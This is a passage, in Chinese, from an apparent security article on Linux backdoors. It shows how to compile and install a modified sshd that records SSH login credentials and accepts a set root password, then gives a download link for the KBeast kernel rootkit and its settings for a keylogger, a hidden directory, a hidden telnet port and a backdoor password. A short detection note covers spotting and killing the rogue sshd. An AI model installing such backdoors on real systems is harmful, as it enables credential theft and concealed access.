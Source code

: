 修改includes.h

![p5](http://drops.javaweb.org/uploads/images/3fb1798fc7ed4cf764c215042dda724a32080a21.jpg)

编译安装再重启sshd服务

```
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
make && make install && service  sshd restart

```

利用：

会记录登入登出的ssh账号密码(错误的也会记录),配置文件中设置的密码,也可以通过ssh然后root登陆。

![p6](http://drops.javaweb.org/uploads/images/54b4ad0151f4b1b95f6dd6b5ae053aa105426679.jpg)

发现：

![p7](http://drops.javaweb.org/uploads/images/a3515c60092eb379da3f0b7b2a35b6590fb68d57.jpg)

找到可疑sshd并且查看一下last的登陆ip，最后kill他们的进程,清除暂时不知

0x07 Kbeast_rootkit
=====

[http://core.ipsecs.com/rootkit/kernel-rootkit/ipsecs-kbeast-v1.tar.gz](http://core.ipsecs.com/rootkit/kernel-rootkit/ipsecs-kbeast-v1.tar.gz)

```
tar -zxvf ipsecs-kbeast-v1.tar.gz
cd kbeast-v1/
vi config.h

```

重要配置：

```
//键盘记录
#define _LOGFILE_ "acctlog"

//rookit产生的日志配置文件所存储位置(此位置是被隐藏的)
#define _H4X_PATH_ "/usr/_h4x_"

//telnet端口(端口也是隐藏的,netstat是看不到的)
#define _HIDE_PORT_ 23333

//telnet的端口以及返回回来的用户名(必须能调用/sh/bash,否则安装会出现Network Daemon错误)
#define _RPASSWORD_ "lolloltest"
#define _MAGIC_NAME_ "root"

```

利用：

1、记录：
